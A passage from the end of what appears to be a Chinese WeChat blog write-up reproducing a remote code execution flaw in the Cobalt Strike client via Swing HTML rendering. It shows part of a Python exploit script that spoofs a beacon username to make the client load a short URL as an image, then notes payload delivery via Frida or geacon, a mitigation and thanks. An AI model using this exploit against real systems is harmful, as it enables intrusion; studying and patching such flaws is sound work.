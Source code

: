     parser.add_argument('-t', '--target', help='target trojan sample', required=False)  
    parser.add_argument('-u', '--url', help='URL for server to load as img, considering the limit of length, it should be less than 20 bytes', required=False)  
      
      
      
      
      
    if __name__=='__main__':  
        showbanner()  
        args = parser.parse_args()  
        if args.target and args.url:  
            if len(args.url)>20:  
                print('[-] URL should be shorter than 20 bytes :(')  
                exit(-1)  
            spoof_user_name(args.target,args.url)  
        else:  
            parser.print_help()  
      
    

frada脚本的编写就不继续赘述了，累了。除了这种方式以外还可以基于开源的已经实现全套协议的`https://github.com/darkr4y/geacon`来直接修改打入payload。

附一个演示视频

## 0x07 修复建议

修复的话这边可以用橙子酱发在赛博回忆录星球的一个临时布丁来关闭swing的html渲染，这样可以暂时性的解决这个问题，但是我现在相信，cs的下一波RCE可能会很快就来了。

## 0x07 总结

在短短的几天内真的学了太多东西了，我基本是完全不懂java的，大部分时候都是一知半解的，这里要强烈感谢群友尤其是panda师傅的鼎力支持，给了我太多的帮助以至于我的复现不至于太掉链子，如果单凭我自己估计至少要两周起步了。整个过程涉及到jdk以及cs，分析的复杂度还是挺高的，不得不说北辰是真牛逼。

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

